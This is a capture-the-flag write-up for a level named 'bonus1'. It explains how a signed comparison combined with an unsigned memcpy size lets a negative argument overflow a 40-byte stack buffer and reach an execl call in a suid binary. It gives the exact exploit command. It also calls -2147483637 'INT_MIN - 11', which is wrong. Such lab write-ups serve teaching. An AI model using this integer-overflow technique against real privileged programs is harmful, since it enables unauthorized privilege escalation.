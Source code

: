 # bonus1

## Solution
 * There is one file in our home, ```bonus1```, belonging to ```bonus2``` user, with suid.
 * Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

## Explanation
Keeping only the parts which matters:
 * Our stack looks this way ```c
	 char		buf[40];
	 int32_t		val;
 ```

 * The program starts with `val = atoi(av[1])`
 * If `(val < 10)` the program continue his execution
 * It then does a read on it : `memcpy(buf, av[2], val * 4)`
 	* We would like to make a buffer overflow here, but we need `(val == 11)`
 * Finally if `(val == 0x574f4c46)` we get access to `execl`

## Execution
To have a long enough size for `memcpy` we can abuse the fact that the 1st comparison `(val < 10)` is signed while the `3rd argument of memcpy()` is unsigned:

We can launch the program this way:
```sh
./bonus1 -2147483637 `python -c "print('?' * 40 + '464c4f57'.decode('hex'))"`
```

We have chosen `-2147483637` as it is equal to `INT_MIN - 11`.
Allowing us to complete this bonus.

